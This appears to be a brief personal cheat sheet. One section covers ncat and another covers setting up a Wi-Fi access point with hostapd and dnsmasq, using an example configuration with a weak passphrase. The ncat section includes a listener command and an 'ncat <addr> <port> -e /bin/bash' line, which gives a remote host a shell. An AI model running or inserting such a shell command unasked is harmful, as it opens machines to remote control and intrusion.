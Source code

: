 # NCAT

```shell

apt install -y ncat 

 

ncat -lvp <port> 

 

ncat <addr> <port> -e /bin/bash
```


# AP

```shell
sudo apt-get install hostapd dnsmasq

sudo vim /etc/hostapd/hostapd.conf
```

```shell
# /etc/hostapd/hostapd.conf
interface=wlan0
driver=nl80211
ssid=MyWiFiNetwork
hw_mode=g
channel=7
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=12345678
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
```

```shell
sudo vim /etc/default/hostapd
```

```shell
# /etc/default/hostapd

DAEMON_CONF="/etc/hostapd/hostapd.conf"
```

```shell

sudo systemctl unmask hostapd
sudo systemctl enable hostapd
sudo systemctl start hostapd


sudo cp /etc/dnsmasq.conf /etc/dnsmasq.conf.org

sudo vim /etc/dnsmasq.conf

```
